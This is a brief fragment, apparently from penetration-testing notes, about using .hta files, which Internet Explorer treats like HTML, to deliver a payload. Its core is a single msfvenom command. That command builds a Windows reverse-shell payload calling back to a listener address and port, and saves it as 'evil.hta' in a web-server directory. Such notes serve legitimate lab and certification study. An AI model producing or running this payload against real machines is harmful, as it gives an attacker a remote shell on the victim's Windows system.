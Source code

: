 ## HTML application

.hta instead of html -> will think as html (Only works in internet explorer
1. `sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta`
